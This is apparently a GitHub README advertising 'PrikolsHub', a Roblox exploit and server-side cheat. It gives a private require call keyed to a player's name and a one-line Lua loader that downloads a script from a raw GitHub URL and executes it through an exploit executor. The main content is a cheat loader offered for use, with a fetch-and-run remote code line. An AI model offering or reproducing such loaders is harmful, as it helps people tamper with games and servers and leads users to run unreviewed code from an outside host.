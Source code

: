 ## Prikols V2 SS
NEW ROBLOX SS
```lua
require("lol private require").prikols(prikolshub_user().Name)
```

## PrikolsHub Hack Version (exploit)
Compatible with ~Script-Ware iOS~ Fluxus Android. (i think) Run this in order to get the gui.
Press `]` to bring up special gui on PC/Mac, otherwise shake your phone violently in order to do the same.
```lua
loadstring(game:GetService("HttpService"):GetAsync("https://raw.githubusercontent.com/ocboy3/ocboy3/main/PrikolsHack.lua",true))()
```
